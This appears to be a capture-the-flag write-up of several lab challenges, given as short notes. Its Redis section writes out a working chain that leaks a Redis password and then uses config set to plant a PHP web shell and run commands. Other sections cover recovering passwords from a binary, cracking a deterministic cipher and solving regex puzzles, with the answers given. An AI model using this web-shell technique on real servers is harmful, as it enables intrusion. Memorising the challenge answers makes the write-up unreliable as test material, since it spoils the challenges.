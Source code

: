 # Redis RCE:

```	
curl http://localhost/maintenance.php?cmd=get+config+*  R3disp@ss
redis-cli
auth R3disp@ss
config set dir /var/www/html
config set dbfilename redis.php
config set test <?php system(\$_GET['c']); ?>
exit
curl http://localhost/redis.php?c=more+index.php
```

# Door, lights, vending machines, lights

```	
strings Door 
```

reveals **pass:Op3nTheD00r**

```
cd ~/lab
```

copy encrypted password to name field in **lights.conf**

```
./lights
```

pass: Computer-TurnLightsOn

```
cd home and run ./lights
cd ~/lab
mv vending-machines.json vending-machines.json.old
./vending-machines
user: AAAA
pass: abcdefghijklmnopqrstuvwxyz (pass encrypted as "9UedAffhM83WsX4LYNPCwn2Eia")
pass: aaaaaa (encrypted as "9Vbtac")
cat vending-machines.json
```

encryption IS deterministic, length equal, username has no effect, clearly progressive
to crack: LVEdQPpBwr 10-characters

### Answer: `CandyCane1`

# Javascript Regex:

1. digits only
	- `\d`
2. 3x alphabetic case-insensitive
	- `[a-zA-Z]{3}`
3. 2x alpha-numeric
	- `[a-z0-9]{2}`
4. 2x anything not A-L 1-5
	- `[^A-L1-5]{2}`
5. 3 or more numeric
	- `^[0-9]{3,}$`
6. HH:MM:SS
	- `^([0|1]?[0-9]|2[0-3]):([0-5][0-9]):([0-5][0-9])$`
7. MAC Address
	- `^([a-fA-F0-9]{2}:){5}[a-fA-F0-9]{2}$`
8. Any MM/DD/YYYY format